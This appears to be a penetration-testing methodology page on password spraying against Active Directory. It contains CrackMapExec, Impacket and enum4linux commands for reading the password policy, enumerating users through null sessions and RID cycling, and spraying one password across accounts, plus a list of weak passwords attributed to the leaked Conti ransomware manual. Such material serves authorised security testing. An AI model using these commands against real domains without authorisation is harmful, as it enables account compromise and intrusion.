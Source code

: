 ```yaml
---
description: Methodology for performing password spraying attacks against active directory
---
```


# Password Spraying Active Directory

### Obtain Password Policy

```bash
# Get Password Policy with CrackMapExec (Unauthenticated)
cme smb $dc -u '' -p ''

# Get Password Policy with CrackMapExec
crackmapexec smb $dc -u $username -p $password --pass-pol

# Get Password Policy with Net Accounts
net accounts
```

### Get List of Users

```bash
# Get List of Users with CrackMapExec via RID Cycling (Unauthenticated)
crackmapexec smb $dc -u '' -p '' --users
crackmapexec smb $dc -u '' -p '' --groups

# Get List of Users with CrackMapExec via RID Cycling
crackmapexec smb $dc -u $username -p $password --users

# Get List of Users with Impacket
GetADUsers.py $domain/$username:$password -all -dc-ip $dc

# Get List of Users with Enum4linux
enum4linux $dc -u $username -p $password -U

# Sort Usernames Obtained from Enum4Linux
cat usernameenum.txt | grep "user" | awk {'print $1'} | cut -d '[' -f 2 | cut -d ']' -f 1 | sort -u -f > UsernameList.txt
```

### Spraying

```bash
# Spray with CrackMapExec
crackmapexec smb $ip -u $username_list -p Winter2022! --continue-on-success
```

### Password List

These passwords were referenced from the published Conti manual and often work. This should be an unspoken rule, but ensure that your list is tailored for each engagement (year, month, etc).

```bash
Password1
Hello123
password
Welcome1
company@1
training
Password123
job12345
food1234
June2022
July2022
August22
August2022
Summer22
Summer2022
June2022!
July2022!
August22!
August2022!
Summer22!
Summer2022!
```

### References

{% embed url="https://wiki.porchetta.industries/smb-protocol/enumeration/enumerate-null-sessions" %}
